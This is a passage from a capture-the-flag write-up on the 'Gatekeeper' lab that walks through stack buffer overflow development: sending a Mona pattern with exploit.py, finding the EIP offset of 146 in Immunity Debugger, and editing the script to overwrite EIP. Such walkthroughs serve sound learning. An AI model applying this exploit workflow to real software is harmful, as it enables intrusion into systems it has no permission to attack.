 For now this script is just sending the unique pattern from Mona which I've pasted in to the payload section. Let's run it:

```text
root@kali:/home/kali/thm/gatekeeper# python exploit.py 
Sending evil buffer...
Done!
```

Now switch to Immunity, use Mona to find how many bytes were needed to crash the app:

```text
!mona findmsp -distance 200
```

Look at the Log to see the result from Mona:

![gatekeeper-mona-distance](/assets/images/2021-03-16-23-08-24.png)

## Controlling EIP

From the output we can see that EIP was at an offset of 146. Let's verify we can fill EIP by placing four B's on it. Make a slight adjustment to our script:

```text
prefix = ""
offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload =""
postfix = ""
```

Above we've set the offset to 146 as we know that will fill the buffer. We then set retn to BBBB, this should fill EIP with our bytes.

Restart gatekeeper using Immunity, remember to press F9 to set it running. Switch back to Kali and run our exploit script, then back to Immunity to check EIP:

![gatekeeper-bbbb](/assets/images/2021-03-17-22-01-01.png)
